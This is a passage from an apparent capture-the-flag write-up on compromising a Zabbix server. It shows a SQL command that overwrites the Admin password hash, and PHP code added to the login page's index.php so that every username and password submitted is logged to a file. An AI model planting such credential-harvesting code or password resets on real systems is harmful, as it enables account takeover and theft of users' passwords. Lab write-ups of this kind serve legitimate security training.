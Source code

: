 Based on the results, we can see three users - `Admin` and `Frank`, and also `guest`. Unfortunately, any password cracking attempt will not yield any success.  At this point, I went ahead and did some Google searches, and stumbled upon the following [documentation](https://www.zabbix.com/documentation/current/en/manual/web_interface/password_reset) with an example of how we can update the password of users. I copied and pasted the SQL command and updated the password of the `Admin` user to `zabbix`.

```mysql
mysql> UPDATE users SET passwd = '$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username = 'Admin';
UPDATE users SET passwd = '$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username = 'Admin';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Once we have updated the password, we can return to Zabbix and log in as `Admin`. Subsequently, having administrative access, we can review the `Audit log` where we come across an interesting behaviour (information). The user `Frank` logs in and logs out every minute.

![Watcher-50.png](assets/Watcher-50.png)

With that information to our advantage, we can safely assume that automation is aimed at mimicking user behaviour. That being said since we have `write` access in the directory of the application, we can alter the `index.php` file to capture the credentials of the user.

By adding the following lines in the PHP file, we are going to capture every authentication and its credentials in a file called `creds.txt`:

```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
        $username = getRequest('name', ZBX_GUEST_USER);
        $password = getRequest('password', '');
        
        $file = fopen("creds.txt", "a+");
	fputs($file, "Username: {$_POST['name']} | Password: {$_POST['password']}\n");
	header("Location: http://127.0.0.1/index.php");
	fclose($file);
	
        CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);

```